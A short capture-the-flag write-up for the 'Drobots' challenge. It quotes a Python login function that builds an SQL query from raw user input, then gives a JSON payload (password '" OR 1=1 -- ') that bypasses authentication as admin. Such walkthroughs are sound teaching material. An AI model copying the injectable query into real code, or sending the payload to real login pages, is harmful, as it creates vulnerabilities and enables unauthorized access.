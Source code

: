 # Drobots (very easy)
For this challange we will need to use SQL injection.

Upon loading the website we are greeted with a login page.

Checking the source code provided for the backend, we see that the username should be **admin** and the password is randomized.

However let's read the source code responsible for the authentication of the users:

```python
def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False

```

This here is clearly vulnerable to an SQL injection attack. Sending the following payload to the login endpoint will allow us to log in as admin, and read the flag.
```json
{
    "username": "admin",
    "password": "\" OR 1=1 -- "
}
```
